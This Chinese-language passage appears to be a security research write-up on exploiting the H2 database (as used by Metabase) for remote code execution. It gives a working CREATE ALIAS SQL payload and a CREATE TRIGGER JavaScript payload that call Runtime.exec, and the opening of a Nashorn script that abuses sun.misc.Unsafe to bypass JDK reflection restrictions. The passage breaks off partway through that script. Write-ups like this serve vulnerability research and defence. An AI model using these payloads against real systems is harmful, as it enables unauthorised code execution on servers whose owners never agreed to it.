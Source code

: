### RUNSCRIPT

`RUNSCRIPT FROM` 可以使用 HTTP 协议执行远程的 SQL 语句，那么在利用的时候我们即可构造恶意的 SQL 语句来完成对漏洞利用。

在执行 SQL 语句时 `CREATE ALIAS` 来会将内容值进行 `javac` 编译之后然后进行运行。

[![pCz4m8S.png](https://s1.ax1x.com/2023/07/28/pCz4m8S.png)](https://imgse.com/i/pCz4m8S)

```sql
DROP ALIAS IF EXISTS sehll;CREATE ALIAS sehll AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "hello";}';CALL sehll ('touch /tmp/123')
```

[![pCz4EUP.png](https://s1.ax1x.com/2023/07/28/pCz4EUP.png)](https://imgse.com/i/pCz4EUP)

需要注意的是默认官方发布的 Docker 镜像中没用 `javc` 命令，所以 ` CREATE ALIAS`  无法能够正常使用。

[![pCz4V4f.png](https://s1.ax1x.com/2023/07/28/pCz4V4f.png)](https://imgse.com/i/pCz4V4f)

但是该方式需要依赖 HTTP 服务，通常禁止向外部网络建立HTTP协议请求，所以这种方式在真实的攻击中发挥的作用就会小很多。

### TRIGGER

H2 在解析 `init` 参数时对 `CREATE TRIGGER` 会由 `loadFromSource` 做特殊处理，根据执行内容的开头来判断是否为需要通过 `javascript` 引擎执行。如果以 `//javascript` 开头就会通过 `javascript` 引擎进行编译然后进行执行。

[![pCz4eC8.png](https://s1.ax1x.com/2023/07/28/pCz4eC8.png)](https://imgse.com/i/pCz4eC8)


我们就可以通过 `javascript` 引擎来实现代码执行，不过该方式在 JDK 15 之后移除了默认的解析，但是有意思的是 Metabase 在项目中使用到了 `js` 引擎技术。

[![pCz4ngg.png](https://s1.ax1x.com/2023/07/28/pCz4ngg.png)](https://imgse.com/i/pCz4ngg)

最后我们即可构建 `javascript` 引擎来构建代码执行，如：

```javascript
java.lang.Runtime.getRuntime().exec('touch /tmp/999')
```

[![pCz4Muj.png](https://s1.ax1x.com/2023/07/28/pCz4Muj.png)](https://imgse.com/i/pCz4Muj)

### Define Class

通过 TIGGER 我们可以进行执行 `javascript` 引擎的任意代码执行，所以为了能够更加入的利用非常有必要进行自定义 Class 加载以及执行。由于最新版的 Metabase 对 JDK 运行产生了限制必须要求为 JDK >= 11，所以就必须要解决 JDK9 modules、JDK 11 ReflectionFilter 的问题。

针对类似问题，我们对 javascript 脚本进行了高度的兼容以及高版本 JDK 的 Bypass 操作，核心代码如下：

```javascript
try {
  load("nashorn:mozilla_compat.js");
} catch (e) {}
function getUnsafe(){
  var theUnsafeMethod = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
  theUnsafeMethod.setAccessible(true); 
  return theUnsafeMethod.get(null);
}
function removeClassCache(clazz){
  var unsafe = getUnsafe();
  var clazzAnonymousClass = unsafe.defineAnonymousClass(clazz,java.lang.Class.forName("java.lang.Class").getResourceAsStream("Class.class").readAllBytes(),null);
  var reflectionDataField = clazzAnonymousClass.getDeclaredField("reflectionData");
  unsafe.putObject(clazz,unsafe.objectFieldOffset(reflectionDataField),null);
}
function bypassReflectionFilter() {
  var reflectionClass;
  try {
    reflectionClass = java.lang.Class.forName("jdk.internal.reflect.Reflection");
  } catch (error) {
    reflectionClass = java.lang.Class.forName("sun.reflect.Reflection");
  }
  var unsafe = getUnsafe();
```